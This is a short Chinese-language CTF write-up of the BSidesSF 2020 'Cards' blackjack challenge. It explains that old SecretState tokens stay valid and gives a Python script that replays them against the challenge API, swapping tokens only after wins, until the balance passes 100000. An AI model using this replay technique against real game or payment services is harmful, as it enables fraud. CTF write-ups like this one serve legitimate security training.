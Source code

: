 ```yaml
---
title: "[BSidesSF 2020]Cards"
date: 2020-04-08
tags: [CTF, WP]
categories:
- [CTF, WP]
comments: false
---
```


# [BSidesSF 2020]Cards

## 分析

21点游戏,查看rules,21点3:2,下注最多500,所以每次最多赢750要赚到100000

<!-- more -->

随便试一下,有一个初始化的/api获取初始金钱和secretstate

/api/deal下注

要达到的目的,利用获取新的secretstate,旧的没有失效的达到一直赚钱的效果

## exp

```
import requests
import time

start = "http://bd6d39d5-cd91-4bb9-b2ef-e753aa13f02d.node3.buuoj.cn/api"
deal = start + "/deal"
#开始
state = requests.post(start).json()["SecretState"]
while True:
    try:
        #下注
        result = requests.post(deal, json={"Bet": 500, "SecretState": state}).json()
    except:
        print(result)
        continue
    time.sleep(0.1)
    if result['GameState'] == 'Blackjack':
        #赢了就换SecretState
        state = result['SecretState']
        print(result['Balance'])
    if result['Balance'] > 100000:
        print(result)
        break
```